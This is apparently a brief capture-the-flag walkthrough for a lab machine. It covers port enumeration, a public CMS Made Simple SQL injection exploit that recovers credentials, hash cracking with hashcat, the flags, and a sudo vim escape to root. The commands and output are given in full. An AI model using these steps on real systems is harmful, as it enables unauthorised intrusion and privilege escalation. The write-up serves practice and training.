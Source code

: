 <pre>
Machine IP: 10.10.71.115

Enum:
    Open Ports:
        21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu)) -> CMS Made Simple vuln
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel



searchsploit CMS Made Simple

CMS Made Simple < 2.2.10 - SQL Injection                                                                                              | exploits/php/webapps/46635.py

Mirror the exploit:

searchsploit -m exploits/php/webapps/46635.py python3 fixes errors 
An dn trexei kante edit ta print mesa sto script kai valte “()”

python3 46635.py -u http://10.10.71.115/simple/ -w /wordlist/path/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96

Twra thelei na kanoyme crack to hash
echo “0c01f4468bd75d7a84c7eb73846e8d96” > hash.txt

hashcat -m 0 hashes /usr/share/wordlists/rockyou.txt

Pwd:secret
User flag : G00d j0b, keep up!
Root flag : W3ll d0n3. You made it!

$ id 
uid=1001(mitch) gid=1001(mitch) groups=1001(mitch)

$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

sudo vim /usr/bin/vim

And type ‘shift :!sh ’ and got root :DD
# id
uid=0(root) gid=0(root) groups=0(root)
</pre>
